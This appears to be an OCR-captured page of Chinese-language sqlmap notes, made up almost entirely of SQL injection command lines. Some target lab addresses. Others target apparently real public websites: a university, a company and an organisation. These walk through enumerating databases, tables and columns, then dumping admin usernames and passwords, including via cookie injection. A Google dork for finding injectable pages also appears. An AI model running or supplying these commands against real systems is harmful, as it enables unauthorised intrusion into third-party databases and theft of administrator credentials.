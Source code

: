                
        e. 排除网站的内容
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --excl-reg "Dynamic content: ([\d]+)"
        f. 多语句测试，php内嵌函数mysql_query(),不支持多语句
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --stacked-test -v 1
        g. union注入测试
                python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --union-test -v 1
        h. unionz注入配合orderby
                python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_str.php?id=1" --union-test --union-tech orderby -v 1
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 --union-use --banner
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 5 --union-use --current-user
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_partialunion.php?id=1" -v 1 --union-use --dbs
        i. fingerprint
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 -f
                python sqlmap.py -u "http://192.168.123.36/sqlmap/get_str.asp?name=luther" -v 1 -f -b
        j. SQLMAP中Google搜索注入
                python sqlmap.py  -g "inurl:php?id="
        k. SQLMAP伪静态注入
                i. 查找数据库
                        python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" --dbs
                ii. 通过1中的数据库查找对应的表 (假如通过1，得到的是dataname)
                        python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname --tables
                iii. 通过2中的数据表得到字段(假如得到的是tablename表)
                        python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname -T tablename --columns
                iv. 通过3得到字段值(假如从3中得到字段id，password)
                        python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname -T tablename -C "password" --dump
                        
        l. SQLMAP用于Access数据库注入
                i. 猜解是否能注入
                        python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7"
                ii. 猜解表
                        python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --tables
                iii. 根据猜解的表进行猜解表的字段(假如通过2得到了admin这个表)
                        python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --columns -T admin
                iv. 根据字段猜解内容(假如通过3得到字段为username和password)
                        python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --dump -T admin -C "username,password"
        m. SQLMAP用于Cookie注入
                i. cookie注入，猜解表
                        python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --table --level 2
                ii. 猜解字段，(通过1的表猜解字段，假如表为admin)
                        python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --columns -T admin --level 2
                iii. 猜解内容
                        python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --dump -T admin -C "username,password" --level 2
                        